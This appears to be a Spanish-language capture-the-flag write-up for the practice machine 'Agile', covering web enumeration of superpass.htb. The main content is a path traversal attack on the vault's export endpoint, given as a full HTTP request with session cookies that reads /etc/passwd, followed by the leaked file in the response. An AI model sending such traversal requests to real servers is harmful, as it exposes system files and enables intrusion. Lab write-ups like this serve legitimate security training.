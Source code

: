 
## Enumeracion de Servicios     

### Puerto 80

Definimos el subdominio superpass.htb (este es visible en el título de la página de Nginx, tambien visible en los resultados de nmap)

![](/Agile/Pasted_image_20230306113515.png)

Intentamos registrarnos en la aplicacion web

![](/Agile/Pasted_image_20230306114025.png)

Al intentarlo obtenemos el siguiente error

![](/Agile/Pasted_image_20230306113616.png)

Luego de registrarnos ingresamos a la siguiente página

Podemos ingresar algunas credenciales al baul.Intentamos exportarlas

Luego intentamos extraer archivos interesantes de información, como el archivo (etc/passwd)

~~~http
GET /download?fn=../../etc/passwd HTTP/1.1
Host: superpass.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJwljk1qAzEMha9itA7Fsj1jK6fovoQgyXJmYNqE8WQVcve6dPV4vB--F1zbxn2xDuevF7hjCHxb73wzOMHnZtzNbfebW3_ccXesOkJ3LGt3j9H5gMv7chonu_UFzsf-tOHWCmdolclMov5tsNWk1RsFZNFZLRfzTJVa8T5Q0OgxaFHB1LgIVwokFqcUaKY8kbRM1ihTkjhJZqyKcdaSMZhQRYqoUubSms_JWxLyA__67Lb_06CH9y8M9kfe.ZAX9Ow.fH2yxQcz3IpceX-8l2pwRttG9Uk; remember_token=11|a91ce8f326a4f9f0a8529318e8bb45fb40d8b5747b727b7815fddf9f7d74fd4414370eed6fdcd69074041975f71e52a5cbe305cfc06715ace1b48a7238f3841e
Connection: close
~~~

~~~http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 06 Mar 2023 14:51:57 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 1744
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
~~~